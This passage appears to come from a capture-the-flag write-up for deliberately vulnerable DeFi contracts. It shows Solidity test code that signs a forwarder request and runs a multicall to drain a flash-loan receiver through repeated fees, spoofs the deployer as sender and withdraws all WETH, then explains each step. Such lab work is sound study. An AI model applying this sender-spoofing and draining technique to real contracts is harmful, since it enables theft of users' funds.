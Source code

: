 ```solidity
    // Create forwarder request
    BasicForwarder.Request memory request = BasicForwarder.Request(
        player,
        address(pool),
        0,
        gasleft(),
        forwarder.nonces(player),
        multicallData,
        1 days
    );

    // Hash the request
    bytes32 requestHash = keccak256(
        abi.encodePacked(
        "\x19\x01",
        forwarder.domainSeparator(),
        forwarder.getDataHash(request)
        )
    );

    // Sign the request
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHash);
    bytes memory signature = abi.encodePacked(r, s, v);

    // Execute the request
    forwarder.execute(request, signature);
}
```

### Explanation of the Exploit

1. **Prepare Flash Loan Calls**: The exploit prepares 10 flash loan calls with zero amount, which will drain the receiver's balance by repeatedly incurring the fixed fee.
2. **Prepare Withdrawal Call**: The exploit prepares a final withdrawal call to transfer all WETH from the pool and the receiver to the recovery account. We set the deployer address as the last 20 bytes so the pool will think the deployer is the sender.
3. **Encode Multicall**: The exploit encodes the flash loan calls and the withdrawal call into a single multicall.
4. **Create Forwarder Request**: The exploit creates a forwarder request with the encoded multicall.
5. **Sign the Request**: The exploit signs the forwarder request using the player's private key.
6. **Execute the Request**: The exploit executes the forwarder request, draining the receiver's balance and transferring all WETH to the recovery account.

## Challenge 3 - Truster

The objective of this challenge is to drain all 1 million DVT tokens from the TrusterLenderPool and deposit them into the designated recovery account, all within a single transaction.

### Vulnerability Breakdown
